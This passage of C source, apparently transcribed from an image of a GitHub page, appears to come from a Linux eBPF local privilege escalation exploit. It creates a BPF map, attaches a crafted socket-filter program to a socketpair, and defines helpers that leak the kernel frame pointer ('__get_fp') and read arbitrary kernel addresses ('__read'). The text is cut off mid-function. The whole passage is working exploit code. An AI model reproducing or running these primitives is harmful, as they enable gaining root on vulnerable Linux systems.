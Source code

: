 ```
	return syscall(__NR_bpf, BPF_MAP_LOOKUP_ELEM, &attr, sizeof(attr));
}

static void __exit(char *err) {
	fprintf(stderr, "error: %s\n", err);
	exit(-1);
}

static void prep(void) {
	mapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(int), sizeof(long long), 3);
	if (mapfd < 0)
		__exit(strerror(errno));

	progfd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER,
			(struct bpf_insn *)__prog, PROGSIZE, "GPL", 0);

	if (progfd < 0)
		__exit(strerror(errno));

	if(socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets))
		__exit(strerror(errno));

	if(setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0)
		__exit(strerror(errno));
}

static void writemsg(void) {
	char buffer[64];

	ssize_t n = write(sockets[0], buffer, sizeof(buffer));

	if (n < 0) {
		perror("write");
		return;
	}
	if (n != sizeof(buffer))
		fprintf(stderr, "short write: %lu\n", n);
}

#define __update_elem(a, b, c) \
	bpf_update_elem(0, (a)); \
	bpf_update_elem(1, (b)); \
	bpf_update_elem(2, (c)); \
	writemsg();

static uint64_t get_value(int key) {
	uint64_t value;

	if (bpf_lookup_elem(&key, &value))
		__exit(strerror(errno));

	return value;
}

static uint64_t __get_fp(void) {
	__update_elem(1, 0, 0);

	return get_value(2);
}

static uint64_t __read(uint64_t addr) {
	__update_elem(0, addr, 0);

```
